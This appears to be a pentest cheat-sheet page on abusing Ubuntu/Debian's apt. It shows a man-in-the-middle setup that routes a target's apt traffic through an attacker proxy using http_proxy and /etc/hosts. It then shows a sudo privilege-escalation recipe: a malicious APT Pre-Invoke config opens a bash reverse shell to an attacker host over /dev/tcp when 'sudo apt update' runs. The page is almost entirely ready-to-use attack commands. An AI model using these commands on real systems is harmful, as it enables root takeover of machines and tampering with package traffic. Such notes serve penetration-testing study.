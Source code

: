 ```yaml
---
title: "Apt"
date: 2025-7-25
tags: ["Mitm", "Mitmproxy", "Apt", "Sudo", "Ubuntu", "Debian", "Package Management"]
---
```


### MITM (Man-in-the-Middle)

#### 1. Add Proxy Path in Target Machine

```console
export http_proxy=http://<LOCAL_IP>:<LOCAL_PROXY_PORT>
```

#### 2. Start Proxy in Local Machine

```console
# Tool
pip3 install --upgrade proxy.py
```

```console
# Start a proxy server
proxy --hostname 0.0.0.0 --port <LOCAL_PROXY_PORT>
```

#### 3. Redirect Traffic to Our Server

```console
# Edit /etc/hosts in target machine
<LOCAL_IP> apt.update.example.com
```

---

### SUDO

#### 1. Create a Malicious Config

```console
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

#### 2. Exploit

```console
sudo apt update -y
```

<br>